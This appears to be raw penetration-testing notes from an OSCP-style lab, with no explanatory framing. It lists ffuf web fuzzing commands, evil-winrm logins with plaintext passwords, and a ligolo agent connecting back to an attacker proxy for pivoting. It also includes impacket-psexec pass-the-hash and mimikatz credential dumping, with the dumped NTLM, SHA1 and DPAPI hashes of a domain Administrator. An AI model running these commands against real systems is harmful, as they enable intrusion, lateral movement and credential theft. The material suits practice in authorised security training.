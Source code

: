 `ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ssh as eric

evil-winrm -i 192.168.204.153 -u administrator -p December31

//drop ligolo
upload ../../tools/ligolo/agent.exe
upload ../../tools/ligolo/wintun.dll

// on attacker
sudo ./proxy -selfcert -laddr 0.0.0.0:443

// on target
agent.exe -connect 192.168.45.186:443 -ignore-cert

// impacket-psexec Administrator:'hghgib6vHT3bVWf'@10.10.164.154

// get on MS02
evil-winrm -i 10.10.164.154 -u administrator -p hghgib6vHT3bVWf

//upload mimikatz and commands
// upload ../../tools/mimicommands.txt

// .\mimikatz.exe "command::run commands.txt"

.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

impacket-psexec -hashes :59b280ba707d22e3ef0aa587fc29ffe5 Administrator@10.10.164.152
```

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 384164 (00000000:0005dca4)
Session           : Interactive from 1
User Name         : Administrator
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 2/12/2025 1:43:54 PM
SID               : S-1-5-21-2610934713-1581164095-2706428072-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : OSCP
         * NTLM     : 59b280ba707d22e3ef0aa587fc29ffe5
         * SHA1     : f41a495e6d341c7416a42abd14b9aef6f1eb6b17
         * DPAPI    : 959ad2ea78c63aebf3233679ad90d769
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : OSCP.EXAM
